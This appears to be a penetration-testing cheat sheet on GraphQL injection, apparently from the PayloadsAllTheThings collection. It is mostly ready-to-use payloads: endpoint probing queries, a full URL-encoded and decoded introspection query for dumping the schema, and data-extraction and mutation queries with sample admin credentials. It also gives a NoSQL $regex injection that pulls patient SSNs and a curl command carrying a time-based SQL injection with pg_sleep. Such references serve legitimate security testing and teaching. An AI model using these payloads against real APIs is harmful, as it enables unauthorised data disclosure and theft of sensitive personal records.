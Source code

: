 # GraphQL injection

> GraphQL is a query language for APIs and a runtime for fulfilling those queries with existing data.


## Summary

* [Tools](#tools)
* [Exploit](#exploit)
  * [Identify an injection point](#identify-an-injection-point)
  * [Enumerate Database Schema via Instropection](#enumerate-database-schema-via-introspection)
  * [Extract data](#extract-data)
  * [Enumerate the types' definition](#enumerate-the-type-definition)
  * [Use mutations](#use-mutations)
  * [NOSQL injection](#nosql-injection)
  * [SQL injection](#sql-injection)
* [References](#references)

## Tools

* [GraphQLmap - Scripting engine to interact with a graphql endpoint for pentesting purposes](https://github.com/swisskyrepo/GraphQLmap)
* [GraphQL Security Toolkit - GraphQL Security Research Material](https://github.com/doyensec/graph-ql/)
* [GraphQL IDE - An extensive IDE for exploring GraphQL API's](https://github.com/andev-software/graphql-ide)

## Exploit

### Identify an injection point

Most of the time the graphql is located on the `/graphql` or `/graphiql` endpoint.

```js
example.com/graphql?query={__schema{types{name}}}
```

Check if errors are visible.

```javascript
?query={__schema}
?query={}
?query={thisdefinitelydoesnotexist}
```


### Enumerate Database Schema via Introspection

URL encoded query to dump the database schema.

```js
fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
```

URL decoded query to dump the database schema.

```javascript
fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args {
      ...InputValue
    }
    type {
      ...TypeRef
    }
    isDeprecated
    deprecationReason
  }
  inputFields {
    ...InputValue
  }
  interfaces {
    ...TypeRef
  }
  enumValues(includeDeprecated: true) {
    name
    description
    isDeprecated
    deprecationReason
  }
  possibleTypes {
    ...TypeRef
  }
}
fragment InputValue on __InputValue {
  name
  description
  type {
    ...TypeRef
  }
  defaultValue
}
fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}

query IntrospectionQuery {
  __schema {
    queryType {
      name
    }
    mutationType {
      name
    }
    types {
      ...FullType
    }
    directives {
      name
      description
      locations
      args {
        ...InputValue
      }
    }
  }
}
```


### Extract data

```js
example.com/graphql?query={TYPE_1{FIELD_1,FIELD_2}}
```

![HTB Help - GraphQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/Images/htb-help.png?raw=true)


### Enumerate the types' definition 

Enumerate the definition of interesting types using the following GraphQL query, replacing "User" with the chosen type

```javascript
{__type (name: "User") {name fields{name type{name kind ofType{name kind}}}}}
```

### Use mutations

Mutations work like function, you can use them to interact with the GraphQL.

```javascript
# mutation{signIn(login:"Admin", password:"secretp@ssw0rd"){token}}
# mutation{addUser(id:"1", name:"Dan Abramov", email:"dan@dan.com") {id name email}}
```

### NOSQL injection

Use `$regex`, `$ne` from []() inside a `search` parameter.

```json
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \".*\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
```


### SQL injection

Simple SQL injection inside a graphql field.

```powershell
curl -X POST http://localhost:8080/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(30\)%3B--%27
```


## References

* [Introduction to GraphQL](https://graphql.org/learn/)
* [GraphQL Introspection](https://graphql.org/learn/introspection/)
* [API Hacking GraphQL - @ghostlulz - jun 8, 2019](https://medium.com/@ghostlulzhacks/api-hacking-graphql-7b2866ba1cf2)
* [GraphQL abuse: Bypass account level permissions through parameter smuggling - March 14, 2018 - @Detectify](https://labs.detectify.com/2018/03/14/graphql-abuse/)
* [Discovering GraphQL endpoints and SQLi vulnerabilities - Sep 23, 2018 - Matías Choren](https://medium.com/@localh0t/discovering-graphql-endpoints-and-sqli-vulnerabilities-5d39f26cea2e)
* [Securing Your GraphQL API from Malicious Queries - Feb 21, 2018 - Max Stoiber](https://blog.apollographql.com/securing-your-graphql-api-from-malicious-queries-16130a324a6b)
* [GraphQL NoSQL Injection Through JSON Types - June 12, 2017 - Pete Corey](http://www.petecorey.com/blog/2017/06/12/graphql-nosql-injection-through-json-types/)
* [SQL injection in GraphQL endpoint through embedded_submission_form_uuid parameter - Nov 6th 2018 - @jobert](https://hackerone.com/reports/435066)
* [Looting GraphQL Endpoints for Fun and Profit - @theRaz0r](https://raz0r.name/articles/looting-graphql-endpoints-for-fun-and-profit/)
* [How to set up a GraphQL Server using Node.js, Express & MongoDB - 5 NOVEMBER 2018 - Leonardo Maldonado](https://www.freecodecamp.org/news/how-to-set-up-a-graphql-server-using-node-js-express-mongodb-52421b73f474/)
* [GraphQL cheatsheet - DEVHINTS.IO](https://devhints.io/graphql)
* [HIP19 Writeup - Meet Your Doctor 1,2,3 - June 22, 2019 - Swissky](https://swisskyrepo.github.io/HIP19-MeetYourDoctor/)